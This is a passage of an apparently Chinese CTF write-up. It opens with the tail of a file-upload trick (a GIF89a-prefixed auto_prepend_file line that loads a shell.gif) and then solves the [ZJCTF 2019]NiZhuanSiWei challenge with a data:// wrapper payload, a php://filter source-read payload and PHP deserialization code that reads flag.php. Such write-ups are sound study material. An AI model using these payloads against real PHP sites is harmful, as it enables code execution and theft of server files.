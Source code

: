 ```
GIF89a
auto_prepend_file=shell.gif 
```

然后访问上传目录下的index.php 解析

# [ZJCTF 2019]NiZhuanSiWei

### data伪协议写入文件

```
if(isset($text)&&(file_get_contents($text,'r')==="welcome to the zjctf")) 
```

file_get_contents 可以配合data伪协议写入变量

由此构造payload：text=data:*//text/plain;base64,d2VsY29tZSB0byB0aGUgempjdGY=*

### filter协议读取源码

file=php:*//filter/read=convert.base64-encode/resource=useless.php*

### 反序列化

构造php文件，在代码尾部使用echo函数把序列化内容输出出来

> ```
> <?php  
> class Flag{  //flag.php  
>     public $file="flag.php";  
>     public function __tostring(){  
>         if(isset($this->file)){  
>             echo file_get_contents($this->file); 
>             echo "<br>";
>         return ("U R SO CLOSE !///COME ON PLZ");
>         }  
>     }  
> }  //以下为手动添加内容
> $a = new Flag();
> echo serialize($a);
> ?> 
> ```

### 利用注释提示

这是解码后的源码

```
<?php  

class Flag{  //flag.php  
    public $file;  
    public function __tostring(){  
        if(isset($this->file)){  
            echo file_get_contents($this->file); 
            echo "<br>";
        return ("U R SO CLOSE !///COME ON PLZ");
        }  
    }  
}  
?> 
```
